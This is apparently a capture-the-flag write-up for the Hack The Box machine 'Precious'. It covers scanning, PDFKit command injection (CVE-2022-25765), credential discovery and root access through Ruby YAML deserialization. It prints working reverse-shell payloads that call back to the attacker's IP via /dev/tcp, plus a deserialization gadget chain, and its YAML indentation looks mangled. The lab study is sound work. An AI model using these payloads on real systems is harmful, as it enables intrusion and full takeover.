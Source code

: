 

## Scanning

we start with inital nmap scan  `nmap -A -F IP`  and founf two open ports  `22` and  `80` . 
The target page looks like this
![](/Hack-The-Box/Precious/img/1.png)

Using  `Feroxbuster`  and  `wfuzz`  for hidden directry scan and subdomain enumeration but we got nothing useful.

Going back to the web page, when we entered a specific url in submit button it shows a flagged error 
`http://1p`
![](/Hack-The-Box/Precious/img/2.png)

But trying the payload like this  `hTtp://IP` we just got the  `url`   printed as  `pdf`.
![](/Hack-The-Box/Precious/img/3.png)

while chehcking about the pdf generator we found its generated through `PDFKit v 0.8.2`
After some reconnasence about PDFkit we founf this specific version is vulnerable to command injection `CVE-2022-25765`

For more details go through it `https://github.com/pdfkit/pdfkit/pull/509`

Now back to our machine through URL submit button enter our payload
```
http://ip/?name=$(id)
http://our_ip/?name=#{'%20 `bash -c "bash -i >&  /dev/tcp/our_ip/LPORT 0>&1"`'}
(For proper rev_shell)
```

```shell

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9898 
listening on [any] 9898 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.189] 36898
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```

### Privilege Escalation

While reading `/etc/passwd` we found a more privileage user rather than `root`
```Bash
ruby@precious:/home$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

So we need to do vertical Privilege esclation.
While going through `/home` dir of `ruby` we found a dir namded `.bundle` . Reading the config file iniside the directory we found the creds for henry user.

### Root
User henry have sudo  so by running `sudo -l` we found something interesting
```shell
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

`update_dependencies.yml` contains `YAML.load` function which can be exploited using yaml deserialization.
```yml
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

 So using the following references we crafted a deserialization payload and exploit it.
 ```
 https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
```

#### Payload
```yml
---

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
           read: 0
                header: "abc"
                  debug_output: &1 !ruby/object:Net::WriteAdapter
                       socket: &1 !ruby/object:Gem::RequestSet
                                sets: !ruby/object:Net::WriteAdapter
                                             socket: !ruby/module 'Kernel'
                                                          method_id: :system
                                                                   git_set:'bash -c "bash -i >& /dev/tcp/10.10.14.17/5656 0>&1"'
                                                                        method_id: :resolve
                                                                    
```

` sudo /usr/bin/ruby /opt/update_dependencies.rb` will give a root rev-shell

```shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 5656
listening on [any] 5656 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.189] 33234
root@precious:/home/henry# whoami
whoami
root
```

